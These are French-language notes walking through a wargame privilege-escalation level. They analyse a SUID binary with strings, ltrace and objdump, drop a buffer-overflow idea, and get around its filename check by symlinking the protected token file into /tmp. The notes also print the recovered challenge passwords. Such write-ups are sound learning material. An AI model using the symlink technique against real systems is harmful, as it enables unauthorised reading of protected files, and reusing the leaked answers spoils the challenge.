 LEVEL 08

------------------------------------------------------------------------------------------------------------------------

    find . -user level08 2> /dev/null | grep -v proc
                 flag08
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag07 -o -user level08
    find . -maxdepth 1 -name "*string*" -print


* Recherches

    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token

    Binaire SUID et GUID avec extended right via les ACLs

    getfacl level08
        
        Voir le ss- dans man getfacl 

       Indicates  the  setuid (s), setgid (s), and sticky (t) bits: either the letter representing the bit, or else a dash
       (-). This line is included if any of those bits is set and left out otherwise, so it will not be shown for most files.


    file level08    --> RAS
    ldd level08     --> RAS
    strings level08

        %s [file to read]
        token                     --> Potentiellement un des arguments passés à strstr()
        You may not access '%s'
        Unable to open %s
        Unable to read fd %d

    ltrace ./level08
        
            printf("%s [file to read]\n", "./level08"./level08 [file to read]
    
    strace ./level08

            write(1, "./level08 [file to read]\n", 25./level08 [file to read]) = 25

    Le binaire prend un <file to read>

    objdump -d level08 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'


        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        call   8048400 <strstr@plt>
        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        8048470 <open@plt>
        call   8048440 <err@plt>
        8048410 <read@plt>
        048490 <write@plt>
        call   8048430 <__stack_chk_fail@plt>

        Anormal le __stack_chk_fail

        https://stackoverflow.com/questions/38418114/why-is-stack-chk-fail-happening-in-my-code

        Answer : One of words exceed MAX_STRING which cause stack overflowed.
                 Stacktrace after crash on __stack_chk_fail only tells you where the problem
                 (stack overflow that smashed the stack) got detected. AddressSanitizer can tell you right when the overflow is happening.

                __stack_chk_fail -- terminate a function in case of stack overflow
                void __stack_chk_fail(void);
                The interface __stack_chk_fail() shall abort the function that called it with a message that a stack overflow has been detected. The program that called the function shall then exit.
                The interface __stack_chk_fail() does not check for a stack overflow itself. It merely reports one when invoked.


    perl -e 'print "A"x100000' > first

    b 37      --> Taille max
    Breakpoint 5 at 0x804868d: file level08.c, line 37.

    En settant des bp avant les call et en affichant les registres, on note qu'edx est set à 400 soit 1024 en décimal
    On constate aussi que c'est la limite du write
    
    perl -e 'print "A"x1000' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1000
    perl -e 'print "A"x1050' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1024 et non 1050

    ---------

    Stop recherches BOF, enfin ne mène à rien car à priori l'objet __stack_chk_fail  traduit l'impossibilité d'exploit via BOF
    Retour à l'idée initiale (skippée sans avoir testé, de fouiner dans les liens symboliques)

    On note un comportement différent quand on passe le fichier token
    Il open/read/write le contenu du fichier passé si celui-ci ne contient pas 'token' dans son nom

        echo pwd > one
        ./level08 /tmp/one
        
        ./level08 token
        
        ./level08 tokden

    Sur le "strings level08", on voit "token", donc à priori c'est le strstr qui l'appelle, et comme il y a pas mal de condition/jump,
    ça peut jusitifer les différences d'output

    Comme en examinant le binaire on ne voit pas d'execv / system, on est quasi sûr que le fichier token contient le flag08


    echo > one
    ./level08 /tmp/one -> semble fonctionner mais est vide

    On peut créer un liens symbolique du fichier token à un "fichier symbolique" dans /tmp
    pour que l'exécutable prenne en fait bien le fichier token

    ln -s $(pwd)/token /tmp/xxx
    ./level08 /tmp/xxx

    Top, ça fonctionne
    Faille apparement bien connue (suid + symlink)

    su flag08 quif5eloekouj29ke0vouxean
    getflag
    su level09 25749xKZ8L7DkSCwJkT9dyv6f 

    Comme on a tjrs accès à tmp/, on peut créer

    



------------------------------------------------------------------------------------------------------------------------


NASM :

    L'instruction TEST :

        CMP subtracts the operands and sets the flags. Namely, it sets the zero flag if the difference is zero (operands are equal).

        TEST sets the zero flag, ZF, when the result of the AND operation is zero. If two operands are equal, their bitwise AND is zero when both are zero.
        TEST also sets the sign flag, SF, when the most significant bit is set in the result, and the parity flag, PF, when the number of set bits is even.

        JE [Jump if Equals] tests the zero flag and jumps if the flag is set. JE is an alias of JZ [Jump if Zero] so the disassembler cannot select one based on the opcode.
        JE is named such because the zero flag is set if the arguments to CMP are equal.

            TEST %eax, %eax
            JE   400e77 <phase_1+0x23>
            jumps if the %eax is zero.

            Équivaut à :

            if (eax == 0) {
                goto some_address
            }

STRSTR :

     If needle is an empty string, haystack is returned; if needle occurs nowhere in haystack, NULL is returned; otherwise a pointer to the first character of
     the first occurrence of needle is returned.

     char * strstr(const char *haystack, const char *needle);

DOCS :

    https://www.exploit-db.com/papers/13199
    https://lwn.net/Articles/250468/